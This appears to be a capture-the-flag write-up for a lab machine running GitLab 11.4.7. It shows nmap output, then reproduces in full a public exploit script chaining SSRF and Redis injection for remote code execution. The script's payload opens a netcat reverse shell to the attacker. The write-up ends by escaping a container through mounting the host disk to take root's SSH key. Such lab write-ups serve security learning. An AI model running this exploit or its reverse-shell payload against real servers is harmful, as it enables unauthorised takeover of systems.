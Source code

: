 #nmapscan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 05:08 EDT
Nmap scan report for 10.10.10.220
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/11%OT=22%CT=1%CU=44142%PV=Y%DS=2%DC=T%G=Y%TM=611393C
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=2%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   98.36 ms  10.10.14.1
2   146.21 ms 10.10.10.220

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.07 seconds
```
#enumeration 
In port 80 we get a gitlab portal. In it's help panel we came to know the version
```GitLab Community Edition 11.4.7 ```
I also ran gobuster but it was not of any use
then searchud for exploits for this gitlab version and found one in 
```GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                                                                                                    | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                                                                                                  | ruby/webapps/49257.py
```
Now used this one 
```
# Exploit Title: GitLab 11.4.7 RCE (POC)
# Date: 24th December 2020
# Exploit Author: Norbert Hofmann
# Exploit Modifications: Sam Redmond, Tam Lai Yin
# Original Author: Mohin Paramasivam
# Software Link: https://gitlab.com/
# Environment: GitLab 11.4.7, community edition
# CVE: CVE-2018-19571 + CVE-2018-19585

#!/usr/bin/python3

import requests
from bs4 import BeautifulSoup
import argparse
import random


parser = argparse.ArgumentParser(description='GitLab 11.4.7 RCE')
parser.add_argument('-u', help='GitLab Username/Email', required=True)
parser.add_argument('-p', help='Gitlab Password', required=True)
parser.add_argument('-g', help='Gitlab URL (without port)', required=True)
parser.add_argument('-l', help='reverse shell ip', required=True)
parser.add_argument('-P', help='reverse shell port', required=True)
args = parser.parse_args()

username = args.u
password = args.p
gitlab_url = args.g + ":5080"
local_ip = args.l
local_port = args.P

session = requests.Session()

# Get Authentication Token
r = session.get(gitlab_url + "/users/sign_in")
soup = BeautifulSoup(r.text, features="lxml")
token = soup.findAll('meta')[16].get("content")
print(f"[+] authenticity_token: {token}")

login_form = {
    "authenticity_token": token,
    "user[login]": username,
    "user[password]": password,
    "user[remember_me]": "0"
}
r = session.post(f"{gitlab_url}/users/sign_in", data=login_form)

if r.status_code != 200:
    exit(f"Login Failed:{r.text}")

# Create project
import_url = "git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2Ftest%2F.git"
project_name = f'project{random.randrange(1, 10000)}'
project_url = f'{gitlab_url}/{username}'

print(f"[+] Creating project with random name: {project_name}")

form = """\nmulti
    sadd resque:gitlab:queues system_hook_push
    lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port} -e /bin/bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
    exec
    exec
    exec\n"""

r = session.get(f"{gitlab_url}/projects/new")
soup = BeautifulSoup(r.text, features="lxml")

namespace_id = soup.find(
    'input', {'name': 'project[namespace_id]'}).get('value')

project_token = soup.findAll('meta')[16].get("content")
project_token = project_token.replace("==", "%3D%3D")
project_token = project_token.replace("+", "%2B")

payload = f"utf8=%E2%9C%93&authenticity_token={project_token}&project%5Bimport_url%5D={import_url}{form}&project%5Bci_cd_only%5D=false&project%5Bname%5D={project_name}&project%5Bnamespace_id%5D={namespace_id}&project%5Bpath%5D={project_name}&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0"

cookies = {
    'sidebar_collapsed': 'false',
    'event_filter': 'all',
    'hide_auto_devops_implicitly_enabled_banner_1': 'false',
    '_gitlab_session': session.cookies['_gitlab_session'],
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': f'{gitlab_url}/projects',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '398',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

print("[+] Running Exploit")
r = session.post(
    gitlab_url+'/projects', data=payload, cookies=cookies, headers=headers, verify=False)
if "The change you requested was rejected." in r.text:
    exit('Exploit failed, check input params')

print('[+] Exploit completed successfully!')
```
ran the exploit to get the user shell
```python3 49334.py -u dddd -p dddddddd -g http://10.10.10.220 -l 10.10.14.33 -P 1234```
Now it was a dockr container 
So you can either use deepsec or you can mount the disk in which linux drive was running I used the later one
I ran **fdisk -l** to know the disk in which linux files were running 
it was /dev/sda2 so i mounted it to a another folder and then got the ssh key of root inside it
then logged into root.


